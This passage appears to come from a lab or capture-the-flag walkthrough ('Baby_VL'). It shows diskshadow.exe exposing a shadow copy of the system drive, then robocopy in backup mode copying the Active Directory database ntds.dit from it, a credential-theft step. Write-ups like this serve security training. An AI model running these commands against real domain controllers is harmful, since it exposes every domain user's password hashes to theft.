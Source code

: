 ![image.png](/assets/images/Baby_VL/image%2021.png)

Now we use **diskshadow.exe.**

```powershell
diskshadow.exe /s backup.txt
```

![image.png](/assets/images/Baby_VL/image%2022.png)

After running **diskshadow.exe**, it says that the copy is successfully exposed on E drive.

Now we use **robocopy** to copy the ntds.dit database file to our shadow drive E:\

```powershell
robocopy /b E:\windows\ntds . ntds.dit
```
